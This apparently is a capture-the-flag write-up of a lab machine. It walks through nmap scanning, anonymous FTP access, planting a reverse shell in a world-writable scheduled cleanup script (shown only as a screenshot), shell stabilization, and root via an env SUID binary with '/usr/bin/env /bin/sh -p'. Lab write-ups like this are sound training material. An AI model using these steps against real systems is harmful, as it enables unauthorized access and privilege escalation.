 # Blog Write-up

## Initial Enumeration

The only initial information provided is an IP address. We begin by conducting an Nmap scan to identify open ports and services:

```bash
nmap -sC -sV -v {target_ip}
```

### Scan Results:

## SMB Enumeration

![image](https://github.com/user-attachments/assets/b82b7277-6869-4be6-8481-f89680e62122)


After downloading both of the photos, no information could be found using stegseek or steghide. Seems to be a dead end.

## FTP enumeration

Logging into the ftp server using anonymous login credentials, there is 1 directory containing 3 files.
```
📂 /
 ├── 📂 scripts
 │   ├── 📄 clean.sh            (-rwxr-xrwx) # A simple cleanup file that writes logs to removed_files.log
 │   ├── 📄 removed_files.log   (-rw-rw-r--) # Log file for removed files
 │   ├── 📄 to_do.txt           (-rw-r--r--) # Note to disable anonymous login since it's unsafe (Understatement of the century)
```

## FTP Exploitation

 Since there is write permissions to the clean.sh file, writing in a simple reverse shell and setting up a listener provides us a way of getting a shell. Because cleanup.sh is automated to run, when starting the listener it may take a moment to catch the shell.
 ![image](https://github.com/user-attachments/assets/b3865e25-347a-45a0-87d2-b8c8d418ce1e)

### Shell Stabilization

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```
After the shell has stabilized that first flag can be found in user.txt

## Privilege Escalation

Starting with basic enumeration, I like to check for any sudo commands available and suid permissions.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
Using https://gtfobins.github.io/ we find that the env suid bit is set. 

```bash
/usr/bin/env /bin/sh -p
```
And with that we've obtained root privileges!

![image](https://github.com/user-attachments/assets/cd85dbd7-7688-41ba-af1a-84f683aa31e2)


### Notes:
- Enhance understanding of GTFObin binary commands.
